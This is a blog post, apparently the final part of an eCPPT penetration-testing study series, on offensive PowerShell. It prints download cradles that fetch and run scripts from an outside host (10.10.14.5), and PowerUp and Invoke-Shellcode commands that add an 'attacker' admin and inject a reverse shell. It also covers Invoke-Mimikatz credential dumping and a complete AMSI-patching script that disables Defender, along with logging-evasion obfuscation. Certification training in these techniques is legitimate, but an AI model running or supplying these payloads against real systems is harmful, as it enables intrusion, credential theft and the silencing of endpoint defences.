






PowerShell is the ultimate weapon in a modern Windows penetration tester's arsenal. By leveraging **Living Off The Land (LotL)** tradecraft, operators avoid dropping foreign compiled binaries onto disk that trigger alerts across Endpoint Detection and Response (EDR) platforms. PowerShell provides direct access to the underlying **.NET Framework**, the **Windows Management Instrumentation (WMI / CIM)** subsystem, and the Win32 API—all while running within a trusted, signed administrative process.

In this tenth and final installment of our comprehensive **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** masterclass, we explore PowerShell from a strictly offensive perspective: deconstructing object pipelines and in-memory download cradles, weaponizing the **PowerSploit** ecosystem, and engineering in-memory patches against Microsoft's **Antimalware Scan Interface (AMSI)**.

<div class="ff-series-nav">
  <a href="/posts/ecppt-v3-part-9-client-side-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 9: Client-Side Attacks</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-layer-group"></i> eCPPTv3 Series</span>
    <span class="ff-center-part">Part 10 of 10</span>
  </div>
  <div class="ff-nav-btn ff-nav-disabled text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Series Complete</span>
      <span class="ff-nav-title">Masterclass Finale</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-check"></i></div>
  </div>
</div>

## Key Takeaways

* **The Offensive Power of Living Off The Land**: PowerShell provides native, fileless memory execution capabilities, seamless integration with .NET reflection, and trusted status in enterprise management logging frameworks.
* **In-Memory Download Cradles**: Using `Invoke-Expression` (`IEX`) coupled with `System.Net.WebClient` or `Invoke-WebRequest`, operators fetch and execute heavy offensive scripts directly into process RAM without writing a single byte to disk.
* **The PowerSploit Arsenal**: A modular post-exploitation toolkit comprising reconnaissance (`PowerView`), privilege escalation checks (`PowerUp`), process injection (`Invoke-Shellcode`), and memory credential harvesting (`Invoke-Mimikatz`).
* **AMSI Internal Architecture**: The Antimalware Scan Interface (`amsi.dll`) is dynamically loaded into every PowerShell process. Before executing script blocks, the engine passes buffers to the `AmsiScanBuffer` export, which forwards the content via RPC to Windows Defender.
* **In-Memory AMSI Patching**: Because `amsi.dll` resides directly within the unprivileged process address space owned by the attacker, we use reflection and Win32 APIs (`VirtualProtect`) to patch the first 6 bytes of `AmsiScanBuffer`, forcing it to return `E_INVALIDARG` or `AMSI_RESULT_CLEAN` instantly, blinding antivirus scans for the remainder of the session!

---

## 1. PowerShell Architecture & Object Pipeline Mastery

Unlike traditional Unix shells that pass unstructured byte streams across pipes (`|`), PowerShell pipelines transmit **fully typed .NET objects**:



### Tactical Commands for Execution Management:

```powershell
# Check current Execution Policy restrictions
Get-ExecutionPolicy

# Spawn a completely unrestricted, non-interactive, hidden PowerShell process
powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden

# Offensive system enumeration via WMI and CIM
Get-CimInstance Win32_OperatingSystem | Select-Object Caption, Version, OSArchitecture
Get-CimInstance Win32_UserAccount | Select-Object Name, SID, Disabled
```

---

## 2. In-Memory Download Cradles (Fileless Execution)

To prevent file-system endpoint detection, offensive scripts are hosted on an external web server and loaded directly into memory:



### Production Download Cradle Formats:

```powershell
# 1. Classic WebClient Download Cradle
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5:8000/PowerUp.ps1')

# 2. Modern Invoke-WebRequest Cradle (PowerShell 3.0+)
IEX (Invoke-WebRequest -Uri 'http://10.10.14.5:8000/PowerView.ps1' -UseBasicParsing).Content

# 3. Proxy-Aware Stealth Cradle with System Credentials
$wc = New-Object System.Net.WebClient
$wc.Headers.Add("User-Agent", "Mozilla/5.0")
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX $wc.DownloadString('http://10.10.14.5:8000/exploit.ps1')
```

---

## 3. The PowerSploit Offensive Ecosystem



### 1. Active Directory Auditing via PowerView:
```powershell
# Identify all members of the Domain Admins group
Get-NetGroupMember -GroupName "Domain Admins"

# Discover workstations where the current user holds local administrative rights
Find-LocalAdminAccess -Verbose
```

### 2. Privilege Escalation Auditing via PowerUp:
```powershell
# Execute all local privilege escalation checks in a single command
Invoke-AllChecks

# If an insecure service is found, abuse it to add a local administrator
Write-ServiceExec -ServiceName "VulnerableService" -Command "net localgroup administrators attacker /add"
```

### 3. In-Memory Process Injection:
```powershell
# Inject a reverse shell payload directly into an active explorer.exe process
Invoke-Shellcode -ProcessID (Get-Process explorer).Id -Shellcode @(0x90,0x90,0xcc...)
```

### 4. Credential Harvesting with Invoke-Mimikatz:
```powershell
# Dump plaintext passwords and NTLM hashes directly from LSASS memory
Invoke-Mimikatz -DumpCreds
```

---

## 4. Antimalware Scan Interface (AMSI) Architecture

Introduced in Windows 10, **AMSI** is an interface standard that allows applications to integrate with the installed antivirus solution:



---

## 5. In-Memory AMSI Patching: Disabling Scans via Memory Hooking

Because `amsi.dll` runs **in user-mode inside our own process space**, our process has full permission to modify its own memory pages!

By using .NET reflection to resolve the virtual memory address of `AmsiScanBuffer`, changing page permissions to `PAGE_EXECUTE_READWRITE` via `VirtualProtect`, and overwriting the function prologue with assembly instructions that immediately return an error code (`0x80070057` = `E_INVALIDARG`), AMSI is neutralized:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as PowerShell Execution Session
    participant Memory as Process Virtual Memory (amsi.dll)
    participant Function as AmsiScanBuffer Function Entry Point
    
    Attacker->>Memory: Resolve amsi.dll base address via GetModuleHandle
    Memory-->>Attacker: Address returned (e.g., 0x7FFA12340000)
    Attacker->>Memory: Resolve AmsiScanBuffer export address via GetProcAddress
    Memory-->>Attacker: Entry point returned: 0x7FFA12345678
    
    Attacker->>Memory: Call VirtualProtect -> Change page permission to Read-Write-Execute (0x40)
    Attacker->>Function: Write 6-byte patch: mov eax, 0x80070057 ; ret
    Attacker->>Memory: Restore original page protection (PAGE_EXECUTE_READ)
    
    Note over Function: AmsiScanBuffer is now patched!
    Attacker->>Function: Invoke malicious script (e.g., Invoke-Mimikatz)
    Function-->>Attacker: Instantly returns error code; bypasses Defender completely!
```

### Complete In-Memory AMSI Patching Script (x64 Architecture):

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

# Load amsi.dll and resolve the exported AmsiScanBuffer address
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")

# Update memory page permissions to PAGE_EXECUTE_READWRITE (0x40)
$oldProtect = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldProtect)

# Patch with x64 assembly: mov eax, 0x80070057; ret
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

# Restore original memory protection
[Win32]::VirtualProtect($Address, [uint32]5, $oldProtect, [ref]$oldProtect)

Write-Host "[+] AMSI memory patch successfully applied! Defender is now blind in this session." -ForegroundColor Green
```

Executing this brief snippet disables AMSI evaluation for the lifetime of that process, enabling unobstructed execution of PowerSploit, Mimikatz, and custom payloads.

---

## 6. Abstract Syntax Tree (AST) Obfuscation via Invoke-Obfuscation

To bypass Script Block Logging (Event ID 4104) and heuristic detection engines, we leverage Daniel Bohannon's **Invoke-Obfuscation**:

1. **Backtick Insertion & Concatenation**:
   ```powershell
   & ( $eNV:cOmSpeC[4,15,25]-jOiN'') ( "W`ri`te-H`os`t 'Hacked'")
   ```
2. **Environment Variable Slicing**:
   ```powershell
   # Dynamically assemble cmdlets without using explicit string tokens
   $cmd = [string]::join('', (('tseT-evoknI')[('tseT-evoknI'.length-1)..0]))
   ```

---

---

## Visual Architecture: Offensive PowerShell & AMSI Memory Hooking

The following technical diagram breaks down the PowerShell in-memory download cradle execution lifecycle, the PowerSploit modular ecosystem, and the internal memory patch applied to `AmsiScanBuffer`:



### Key Architectural Observations from the Diagram:
1. **The In-Memory Hook**: Because `amsi.dll` is mapped into user-mode address space within the attacker's `powershell.exe` process, no administrator rights are required to alter its memory protection. Calling `VirtualProtect` to make the memory page writable (`0x40`) allows us to overwrite the function entry point with `mov eax, 0x80070057; ret` (Hex: `B8 57 00 07 80 C3`).
2. **Defeating Script Block Logging**: Script Block Logging (EID 4104) logs the full, unobfuscated code block immediately prior to execution. By using AST obfuscation via `Invoke-Obfuscation` or tampering with the internal `ScriptBlockLogging` registry/memory flags, operators prevent forensic audit logging from capturing command syntax.

---

## Attack Chain Interconnection: Executing Fileless In-Memory Operations to Seal Complete Campaign Dominance

Offensive PowerShell is the execution medium that connects post-exploitation objectives across the enterprise:



* **Connection to Part 4 (Active Directory)**: Using `PowerView` cmdlets (`Get-DomainUser`, `Find-LocalAdminAccess`), you conduct covert LDAP queries that bypass noisy port scanning.
* **Connection to Part 5 (Privilege Escalation)**: `PowerUp.ps1` automates checking for unquoted service paths and weak service DACLs in a single memory invocation (`Invoke-AllChecks`).
* **Connection to Part 7 (Command & Control)**: In-memory download cradles ensure that C2 implants and staged beacons are fetched directly over HTTPS and executed without ever creating suspicious disk artifacts.

---

## Categorized References & Authoritative Sources

### 1. Microsoft Architectural Documentation
* **Microsoft Learn: Antimalware Scan Interface (AMSI) Architecture**: [https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal).
* **Microsoft Learn: PowerShell Script Block Logging & Auditing**: [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows).
* **Microsoft Learn: Constrained Language Mode (CLM) Specifications**.

### 2. Authoritative Offensive PowerShell Repositories
* **PowerSploit Offensive PowerShell Repository**: [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit).
* **HackTricks Windows AMSI Bypass**: In-depth analysis of memory patching, reflection tricks, and AMSI evasion tradecraft. [https://hacktricks.wiki/](https://hacktricks.wiki/).
* **Invoke-Obfuscation by Daniel Bohannon**: PowerShell AST and token obfuscation framework. [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation).
* **Rasta-Mouse AMSI Bypass Research**: *Memory Patching AmsiScanBuffer*. [https://rastamouse.me/](https://rastamouse.me/).

### 3. MITRE ATT&CK Enterprise Techniques
* **T1059.001**: Command and Scripting Interpreter: PowerShell. [https://attack.mitre.org/techniques/T1059/001/](https://attack.mitre.org/techniques/T1059/001/).
* **T1562.001**: Impair Defenses: Disable or Modify Tools (AMSI Bypass). [https://attack.mitre.org/techniques/T1562/001/](https://attack.mitre.org/techniques/T1562/001/).
* **T1027**: Obfuscated/Encrypted Payloads. [https://attack.mitre.org/techniques/T1027/](https://attack.mitre.org/techniques/T1027/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
